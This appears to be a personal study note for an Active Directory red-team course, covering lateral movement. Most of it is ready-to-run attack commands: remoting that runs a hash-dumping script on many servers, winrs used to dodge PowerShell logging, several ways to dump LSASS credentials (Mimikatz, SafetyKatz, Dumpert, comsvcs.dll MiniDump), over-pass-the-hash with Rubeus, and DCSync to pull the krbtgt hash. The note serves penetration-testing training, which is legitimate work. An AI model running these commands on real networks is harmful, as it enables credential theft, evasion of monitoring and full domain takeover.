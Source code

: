 ```yaml
---
title: "3 - Lateral Movement"
classes: single
header:  
  teaser: /assets/images/posts/crtp/crtp-teaser4.jpg
  overlay_image: /assets/images/main/header5.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "PowerShell Remoting, Mimikatz, Over Pass the hash and More"
description: "PowerShell Remoting, Mimikatz, Over Pass the hash and More"
categories:
  - notes
  - crtp
tags:
  - begginer
  - AD
  - Windows
  - lateralmovement 
toc: true
---
```


# Lateral Movement

- Think of PowerShell Remoting (PSRemoting) as psexec on steroids but much more silent and super fast!
- PSRemoting uses Windows Remote Management (WinRM) which is Microsoft's implementation of WS-Management.
- Enabled by default on Server 2012 onwards with a firewall exception.
- Uses WinRM and listens by default on 5985 (HTTP) and 5986 (HTTPS).
- It is the recommended way to manage Windows Core servers.
- You may need to enable remoting (Enable-PSRemoting) on a Desktop Windows machine, Admin privs are required to do that.
- The remoting process runs as a high integrity process. That is, you get an elevated shell.

**One-to-One**

PSSession:
```powershell
– Interactive
– Runs in a new process (wsmprovhost)
– Is Stateful
```

Useful cmdlets:
```powershell
– New-PSSession
– Enter-PSSession
```

```powershell
# 1. PS> 
Enter-PSSession <machine>
Get-PSHostProcessInfo #this will show the ProccessID of wsmprovhost

# 2. PS> 
$machine = New-PSSession <machine>
```



**One-to-Many**

- Also known as Fan-out remoting.
- Non-interactive.
- Executes commands parallely.

Useful cmdlets
```powershell
– Invoke-Command
```

Run commands and scripts on:
```powershell
– multiple remote computers
– in disconnected sessions (v3)
– as background job and more.
```

> The best thing in PowerShell for passing the hashes, using credentials and executing commands on multiple remote computers.
> Use -Credential parameter to pass username/password.


**[easy to detect - noisy]**

**Use below to execute commands or scriptblocks**:
```powershell
Invoke-Command -Scriptblock {Get-Process} -ComputerName	(Get-Content <list_of_servers>)
```

**Use below to execute scripts from files**:
```powershell
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -	ComputerName (Get-Content <list_of_servers>)
```

**Use below to execute locally loaded function on the remote machines**:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
```

**In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way**:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```

**In below, a function call within the script is used**:
```powershell
Invoke-Command -Filepath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```

**Use below to execute Stateful commands using Invoke-Command**:
```powershell
$Sess = New-PSSession -Computername Server1
Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}
Invoke-Command -Session $Sess -ScriptBlock {$Proc.Name}
```


**[more stealthy]**

> PowerShell remoting supports the system-wide transcripts and deep script block logging.

We can use winrs in place of PSRemoting to evade the logging (and still reap the benefit of 5985 allowed between hosts):
```powershell
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname
```

> We can also use winrm.vbs 
> COM objects of WSMan object (even more silently)

[WSMan-WinRM on GitHub](https://github.com/bohops/WSMan-WinRM)



# MIMIKATZ

[Mimikatz on GitHub](https://github.com/gentilkiwi/mimikatz)

Unofficial mimikatz guide:

[ADSecurity Blog - Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=2207)


**Local admin required**

> Invoke-Mimikatz, is a PowerShell port of Mimikatz. Using the code from ReflectivePEInjection, mimikatz is loaded reflectively into the memory.

All the functions of mimikatz could be used from this script.

> [everything from LSASS is heavily detected]**

**Dump credentials on a local machine using Mimikatz**:
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

**Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)**:
```powershell
SafetyKatz.exe "sekurlsa::ekeys"
```

**Dump credentials Using SharpKatz (C# port of some of Mimikatzfunctionality)**:
```powershell
SharpKatz.exe --Command ekeys
```

**Dump credentials using Dumpert (Direct System Calls and API unhooking)**:
```powershell
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

**Using pypykatz (Mimikatz functionality in Python)**:
```powershell
pypykatz.exe live lsa
```

**Using comsvcs.dll**:
```powershell
tasklist /FI "IMAGENAME eq lsass.exe" 
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full
```

- From a Linux attacking machine using *impacket*
- From a Linux attacking machine using *Physmem2profit*

## References

[Fantastic Windows Logon Types and Where to Find Credentials in Them](https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-them)

[Invoke-Mimikatz.ps1 in Nishang](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)

[SharpKatz on GitHub](https://github.com/b4rtik/SharpKatz)

[Dumpert on GitHub](https://github.com/outflanknl/Dumpert)

[BetterSafetyKatz on GitHub](https://github.com/Flangvik/BetterSafetyKatz)

[SafetyKatz on GitHub](https://github.com/GhostPack/SafetyKatz)

[pypykatz on GitHub](https://github.com/skelsec/pypykatz)

[lsassy on GitHub](https://github.com/Hackndo/lsassy)

[impacket on GitHub](https://github.com/SecureAuthCorp/impacket/)

[physmem2profit on GitHub](https://github.com/FSecureLABS/physmem2profit)


# What to do with credentials?

## Over-Pass-The-Hash

Over Pass the hash (OPTH) generate tokens from hashes or keys. 

> Needs elevation (Run as administrator)

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"' 
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"
```

> The above commands starts a PowerShell session with a logon type 9 (same as runas /netonly).


- Over Pass the hash (OPTH) generate tokens from hashes or keys.

**Doesn't need elevation**:
```powershell
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```

**Needs elevation**:
```powershell
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
pass-the-hash # for non domain machines
overpass-the-hash # for domain machines (it gerenates kerberos token)
```
 
# DCSync

> By default, Domain Admins privileges are required to run DCSync

To extract credentials from the DC without code execution on it, we can use DCSync.

To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for us domain:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```
